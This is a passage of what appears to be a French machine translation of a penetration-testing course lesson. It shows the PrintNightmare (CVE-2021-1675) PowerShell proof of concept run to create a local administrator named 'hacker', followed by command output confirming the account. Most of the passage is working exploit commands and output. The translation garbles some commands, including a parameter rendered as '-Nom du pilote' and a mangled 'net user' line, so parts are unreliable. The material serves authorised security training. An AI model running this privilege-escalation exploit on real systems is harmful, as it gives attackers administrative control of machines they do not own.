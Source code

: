 Nous pouvons maintenant importer le script PowerShell et l'utiliser pour ajouter un nouvel utilisateur administrateur local.

Ajout d'un administrateur local avec PrintNightmare PowerShell PoC

```
PS C:\htb> Import-Module .\CVE-2021-1675.ps1
PS C:\htb> Invoke-Nightmare -NewUser "hacker" -NewPassword "Pwnd1234!" -Nom du pilote "PrintIt"

[+] a créé la charge utile sur C:\Users\htb-student\AppData\Local\Temp\nightmare.dll
[+] en utilisant pDriverPath = "C:\Windows\System32\DriverStore\FileRepository\ntprint.inf_am
d64_ce3301b66255a0fb\Amd64\mxdwdrv.dll"
[+] hacker utilisateur ajouté en tant qu'administrateur local
[+] suppression de la charge utile de C:\Users\htb-student\AppData\Local\Temp\nightmare.dll

```

#### Confirmation du nouvel utilisateur administrateur

Si tout se passe comme prévu, nous aurons un nouvel utilisateur administrateur local sous notre contrôle. L'ajout d'un utilisateur est "bruyant", nous ne voudrions pas faire cela sur un engagement où la furtivité est une considération. De plus, nous voudrions vérifier auprès de notre client pour nous assurer que la création de compte est dans le champ de l'évaluation.

Confirmation du nouvel utilisateur administrateur

```
PS C:\htb> hacker de l'utilisateur du net

Pirate de nom d'utilisateur
Pirate de nom complet
Commentaire
Commentaire de l'utilisateur
Code pays/région 000 (valeur par défaut du système)
Compte actif Oui
Le compte expire Jamais

Mot de passe défini pour la dernière fois ?8/?9/?2021 12:12:01 PM
Le mot de passe expire Jamais
Mot de passe modifiable ?8/?9/?2021 12:12:01 PM
Mot de passe requis Oui
L'utilisateur peut changer de mot de passe Oui

Postes de travail autorisés Tous
Script de connexion
Profil de l'utilisateur
Répertoire d'accueil
Dernière connexion Jamais

Heures de connexion autorisées Tous

Adhésions aux groupes locaux *Administrateurs
Adhésions au groupe mondial *Aucun
La commande s'est terminée avec succès.

```
